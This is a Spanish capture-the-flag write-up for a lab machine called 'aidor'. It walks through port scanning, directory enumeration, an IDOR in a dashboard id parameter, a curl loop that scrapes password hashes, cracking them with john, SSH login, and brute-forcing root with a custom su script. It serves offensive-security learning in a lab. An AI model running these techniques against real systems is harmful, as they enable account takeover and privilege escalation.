









# Máquina aidor

---

Dificultad -> Fácil

---

Empezamos mapeando puertos

```shell
nmap -p- --open -sCV --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7 (protocol 2.0)
5000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.13.5)
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Werkzeug/3.1.3 Python/3.13.5
```

Vemos un ssh y una web en el 5000, entro a la web y veo lo siguiente



Unicamente veo una página para iniciar sesión (no vulnerable a sql injection) 

Antes de nada busco directorios web con gobuster:

```shell
gobuster dir -u http://172.17.0.2:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
```

```shell
/register             (Status: 200) [Size: 17430]
/logout               (Status: 302) [Size: 189] [--> /]
/dashboard            (Status: 302) [Size: 189] [--> /]
/console              (Status: 400) [Size: 167]
```

Encuentro un /console pero me devuelve Bad request así que creo pruebo a crear una cuenta



Dentro veo un dashboard donde me sale mi contraseña cifrada (hash) y un id que aparece abajo de la página y en la URL

`http://172.17.0.2:5000/dashboard?id=55`



Viendo esto, pruebo a cambiar el id en la url y veo que soy otro usuario (aidor en este caso) donde puedo ver la contraseña hasheada



Sabiendo esto, hago un pequeño script en bash que itera por todos los ids y guarda en cada linea de un archivo llamado hashes todos los hash de los usuarios

```bash
for id in {0..60}; do
        curl -s http://172.17.0.2:5000/dashboard?id=$id \ | grep -oP '(?<=<div class="password-hash">)[^<]+' >> hashes
done
```



Ahora teniendo todos los hashes de los usuario, con john intento crackearlos y despues de probar varios formatos, con el formato `Raw-SHA256` consigo las siguientes contraseñas

```bash
john hashes --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```



Teniendo estas contraseñas pruebo ha conectarme por ssh con los usuarios y las contraseñas y encuentro que puedo entrar con las credenciales `aidor:chocolate`



Empiezo con `sudo -l` pero no se encuentra el comando sudo

Tambien busco por permiso SUID `find / -perm -4000 2>/dev/null` pero tampoco nada



Despues de buscar durante un rato y no encuentrar nada, solo se me ocurre optar por bruteforce al usuario root.

Para esto utilizo un script echo por mi en python [Python-Su-BruteForce](https://github.com/Hgo08/Python-Su-BruteForce/blob/main/main.py).

Con `scp main.py aidor@172.17.0.2:/home/aidor` me paso el script y con `scp /usr/share/wordlists/rockyou.txt aidor@172.17.0.2:/home/aidor` me paso el rockyou.

Seguidamente lo ejecuto en el servidor

```shell
python3 main.py -w rockyou.txt -u root -T 200 -t 2
```



Despues de unos pocos segundos me encutrna la contraseña `estrella` con la que acabo siendo root :)
